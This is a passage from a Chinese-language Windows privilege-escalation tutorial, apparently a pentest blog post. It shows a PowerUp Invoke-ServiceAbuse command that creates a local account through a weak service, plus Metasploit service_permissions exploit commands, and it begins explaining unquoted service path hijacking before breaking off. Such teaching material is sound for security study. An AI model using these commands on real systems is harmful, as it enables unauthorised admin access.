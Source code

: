 ![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127105304.png-water_print](assets/1699411459-68c19aa94d12eec8dd11cbb88dd3dda4.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127105304.png-water_print")

-   ServiceName：可能存在漏洞的服务
-   Path：该服务的可执行程序的路径
-   StartName：服务运行账号
-   AbuseFunction：利用方式

根据 AbuseFunction 中的利用方式执行脚本，这里以 VGAuthService 服务为例

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127105407.png-water_print](assets/1699411459-553c4ce672cb37fcd8173be3aeff0115.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127105407.png-water_print")

添加一个名为 user，密码为 123456 的账号：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -Command "& {Import-Module C:/PowerUp.ps1;Invoke-ServiceAbuse -Name 'VGAuthService' -Username user -Password 123456}"<br>``` |

#### [](#313-metasploit)3.1.3 metasploit

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>use exploit/windows/local/service_permissions<br>set AGGRESSIVE true<br>set session 1<br>exploit<br>``` |

### [](#32-%E5%8F%AF%E4%BF%A1%E4%BB%BB%E6%9C%8D%E5%8A%A1%E8%B7%AF%E5%BE%84%E6%8F%90%E6%9D%83)3.2 可信任服务路径提权

可信任服务路径漏洞利用了 Windows 文件路径解析的特性，如果一个服务调用的可执行文件没有正确地处理所引用的完整路径名，同时攻击者该文件路径有可写权限，攻击者就可以上传文件来劫持路径名。

例如 Windows 系统启动某服务时查找的文件路径为 `C:\Program Files\Some Folder\Services.exe`。

对于该路径中的每一个空格，Windows 都会尝试并执行与空格前面的名字相匹配的程序，因此 Windows 会以依次如下顺序查找一下启动程序：
